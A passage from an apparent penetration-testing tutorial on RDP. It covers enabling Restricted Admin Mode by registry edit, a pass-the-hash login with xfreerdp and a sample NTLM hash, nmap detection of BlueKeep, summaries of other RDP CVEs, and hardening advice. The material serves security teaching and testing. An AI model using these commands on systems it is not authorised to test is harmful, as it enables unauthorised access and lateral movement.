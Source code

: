 1. First, ensure Restricted Admin Mode is enabled on the target:

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

2. Use xfreerdp with the hash:

```bash
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

If the hash is valid and Restricted Admin Mode is enabled, you'll be logged in without requiring the cleartext password.

### Known RDP Vulnerabilities

#### CVE-2019-0708 (BlueKeep)

A critical remote code execution vulnerability in Remote Desktop Services:

* Affects Windows 7, Windows Server 2008 R2, and earlier versions
* Pre-authentication and requires no user interaction
* Can potentially allow wormable malware

Detection:

```bash
nmap -p 3389 --script rdp-vuln-ms19-0708 192.168.2.143
```

#### CVE-2012-0002 (MS12-020)

A vulnerability in Remote Desktop Protocol that could allow remote code execution:

* Affects multiple versions of Microsoft Windows
* Exploitable over the RDP protocol
* Can cause denial of service

#### CVE-2020-0609/CVE-2020-0610

Remote code execution vulnerabilities in Windows Remote Desktop Gateway:

* Affects Windows Server 2012, 2012 R2, 2016, 2019
* Pre-authentication and requires no user interaction
* Enables arbitrary code execution on the gateway server

### Defensive Measures

When testing RDP services, consider these security recommendations:

#### RDP Hardening

1. **Enable Network Level Authentication (NLA)**
   * Requires user authentication before establishing a full RDP connection
   * Registry path: `HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp`
   * Setting: `SecurityLayer` = 2, `UserAuthentication` = 1
2. **Implement Account Lockout Policies**
   * Prevents brute force attacks
   * Recommended: 5-10 invalid attempts before lockout
3. **Use Strong Passwords**
   * Complex passwords for all accounts with RDP access
   * Consider password management solutions
4. **Restrict RDP Access**
   * Limit RDP to specific IP addresses using Windows Firewall
   * Use VPN for remote access before allowing RDP connections
5. **Disable RDP When Not Needed**
   * Registry path: `HKLM\System\CurrentControlSet\Control\Terminal Server`
   * Setting: `fDenyTSConnections` = 1
6. **Use TLS 1.2 or Higher**
   * Provides stronger encryption